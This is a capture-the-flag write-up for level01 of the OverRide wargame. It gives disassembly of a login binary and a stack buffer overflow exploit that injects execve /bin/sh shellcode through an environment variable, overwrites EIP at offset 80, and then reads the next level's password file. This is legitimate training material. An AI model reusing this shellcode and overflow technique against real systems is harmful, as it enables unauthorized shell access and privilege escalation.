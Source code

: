 # level01

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level01@OverRide:~$ checksec --file ./level01
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level01
```

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   ebp
   0x080484d1 <+1>:     mov    ebp,esp
   0x080484d3 <+3>:     push   edi
   0x080484d4 <+4>:     push   ebx
   0x080484d5 <+5>:     and    esp,0xfffffff0
   0x080484d8 <+8>:     sub    esp,0x60
   0x080484db <+11>:    lea    ebx,[esp+0x1c]
   0x080484df <+15>:    mov    eax,0x0
   0x080484e4 <+20>:    mov    edx,0x10
   0x080484e9 <+25>:    mov    edi,ebx
   0x080484eb <+27>:    mov    ecx,edx
   0x080484ed <+29>:    rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:    mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:    mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:    call   0x8048380 <puts@plt>
   0x08048503 <+51>:    mov    eax,0x80486df
   0x08048508 <+56>:    mov    DWORD PTR [esp],eax
   0x0804850b <+59>:    call   0x8048360 <printf@plt>
   0x08048510 <+64>:    mov    eax,ds:0x804a020
   0x08048515 <+69>:    mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:    mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:    mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:    call   0x8048370 <fgets@plt>
   0x0804852d <+93>:    call   0x8048464 <verify_user_name>
   0x08048532 <+98>:    mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:   je     0x8048550 <main+128>
   0x0804853d <+109>:   mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:   call   0x8048380 <puts@plt>
   0x08048549 <+121>:   mov    eax,0x1
   0x0804854e <+126>:   jmp    0x80485af <main+223>
   0x08048550 <+128>:   mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:   call   0x8048380 <puts@plt>
   0x0804855c <+140>:   mov    eax,ds:0x804a020
   0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:   lea    eax,[esp+0x1c]
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
   0x08048579 <+169>:   lea    eax,[esp+0x1c]
   0x0804857d <+173>:   mov    DWORD PTR [esp],eax
   0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:   mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
   0x08048597 <+199>:   mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:   call   0x8048380 <puts@plt>
   0x080485a3 <+211>:   mov    eax,0x1
   0x080485a8 <+216>:   jmp    0x80485af <main+223>
   0x080485aa <+218>:   mov    eax,0x0
   0x080485af <+223>:   lea    esp,[ebp-0x8]
   0x080485b2 <+226>:   pop    ebx
   0x080485b3 <+227>:   pop    edi
   0x080485b4 <+228>:   pop    ebp
   0x080485b5 <+229>:   ret
End of assembler dump.
```

```gdb
gdb-peda$ pdisas verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:     push   ebp
   0x08048465 <+1>:     mov    ebp,esp
   0x08048467 <+3>:     push   edi
   0x08048468 <+4>:     push   esi
   0x08048469 <+5>:     sub    esp,0x10
   0x0804846c <+8>:     mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:    call   0x8048380 <puts@plt>
   0x08048478 <+20>:    mov    edx,0x804a040
   0x0804847d <+25>:    mov    eax,0x80486a8
   0x08048482 <+30>:    mov    ecx,0x7
   0x08048487 <+35>:    mov    esi,edx
   0x08048489 <+37>:    mov    edi,eax
   0x0804848b <+39>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:    seta   dl
   0x08048490 <+44>:    setb   al
   0x08048493 <+47>:    mov    ecx,edx
   0x08048495 <+49>:    sub    cl,al
   0x08048497 <+51>:    mov    eax,ecx
   0x08048499 <+53>:    movsx  eax,al
   0x0804849c <+56>:    add    esp,0x10
   0x0804849f <+59>:    pop    esi
   0x080484a0 <+60>:    pop    edi
   0x080484a1 <+61>:    pop    ebp
   0x080484a2 <+62>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ pdisas verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:     push   ebp
   0x080484a4 <+1>:     mov    ebp,esp
   0x080484a6 <+3>:     push   edi
   0x080484a7 <+4>:     push   esi
   0x080484a8 <+5>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:     mov    edx,eax
   0x080484ad <+10>:    mov    eax,0x80486b0
   0x080484b2 <+15>:    mov    ecx,0x5
   0x080484b7 <+20>:    mov    esi,edx
   0x080484b9 <+22>:    mov    edi,eax
   0x080484bb <+24>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:    seta   dl
   0x080484c0 <+29>:    setb   al
   0x080484c3 <+32>:    mov    ecx,edx
   0x080484c5 <+34>:    sub    cl,al
   0x080484c7 <+36>:    mov    eax,ecx
   0x080484c9 <+38>:    movsx  eax,al
   0x080484cc <+41>:    pop    esi
   0x080484cd <+42>:    pop    edi
   0x080484ce <+43>:    pop    ebp
   0x080484cf <+44>:    ret
End of assembler dump.
```


## Exploit

A first read of ASM code allows us to see that function `verify_user_name` compares the user name to `dat_wil` and
function `verify_user_pass` compares password to `admin`. However, when you try with `admin` it doesn't work.

Looking closely to the code tell us that finding the password won't help us! It doesn't call any `system` function for
example. Thus, we have to provide our shellcode.

After several tests, we can find that we reach the EIP with an offset of `80` (thanks to this
[website](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)). In order to store our
shellcode, we can use environment variables. We have all the keys to exploit this level, let's go!

First, add the shellcode to environment variables:

```console
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
level01@OverRide:~$ env | grep SHELLCODE
SHELLCODE=��������������������������������������������������j
                                                             X�Rh//shh/bin��1�̀
```

Thanks to `gdb` we can find its address:

```gdb
[...]
0024| 0xffffd6b8 --> 0xffffd74c --> 0xffffd87e ("SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀")
[...]
```

Here we have `0xffffd87e` but it could be different. Let's add `20` to this address to jump into the nop sled:
`0xffffd892`.

And execute the exploit with:

```console
level01@OverRide:~$ (python -c 'print "dat_wil" + "\n" + "A" * 80 + "\x92\xd8\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
